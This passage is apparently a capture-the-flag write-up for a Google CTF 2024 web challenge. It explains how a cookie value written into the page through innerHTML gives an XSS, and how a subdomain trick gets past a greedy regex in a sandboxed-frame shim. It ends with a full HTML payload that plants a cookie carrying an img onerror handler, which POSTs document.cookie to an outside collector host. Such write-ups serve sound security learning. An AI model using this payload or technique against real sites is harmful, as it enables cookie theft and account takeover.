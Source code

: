 But also this gives us XSS if we can control the cookie password:
```js
let password = getCookie('password') || localStorage.getItem('password') || "okoń";
let correctPasswordSpan = document.createElement('span');
correctPasswordSpan.classList.add('correct');
correctPasswordSpan.innerHTML = password;
```

Even though correctPasswordSpan is not inserted yet into the DOM:
![](/assets/images/posts/innerhtml.png)

**First idea:** Why not create our own shim on `content-hash.scf.usercontent.goog` and set the password cookie on `.scf.usercontent.goog`? That way our payload would get executed when opening the Password Game again.

Well, this doesn't work. And that is because of the [Public Suffix List](https://wiki.mozilla.org/Public_Suffix_List). The browser treats `*.usercontent.goog` as a top level domain. And our content-hash as it's own domain. So we cannot set a cross-domain cookie.

**But what about subdomains?** Turns out that we actually can use subdomains. They won't be on https, but the DNS record still points to the right address. So we could have a shim on `content-hash.0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog` and set the cookie on `0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog`. Like it's shown in the picture below:
![](/assets/images/posts/lmaosubdomain.png)

**Can we actually do that?** Yes, we can. The shim is minified, but after beautifying we see that it takes the following regex to validate the content hash:
```js
var L = /^([a-z0-9]{50})-h(\d+)[.]/
// ...
const d = L.exec(O);
if (d === null || d[1] === null || d[2] === null) throw Error(`Hashed domain '${O}' must match the following regular expression: ${L}`)
```
But this regex is greedy, so it will take the first occurence of the hash that it sees. Exactly what we need, turns out we can use `content-hash.0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog`  after all.

This was my payload:
```html
<script src="https://eqadvjoy.requestrepo.com/safe-frame.js"></script>

<script>
  let data = `<script>document.cookie = 'password=<img/src%3d"x"/onerror%3d"fetch(\`https://eqadvjoy.requestrepo.com/\`,{method:\`POST\`,body:document.cookie})"/>; domain=.0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog';<\u002fscript>`;
  safeFrameRender(data, "text/html;charset=utf-8");
  setTimeout(()=>{
    location="https://game-arcade-web.2024.ctfcompetition.com/#1";
  }, 500);
</script>
```
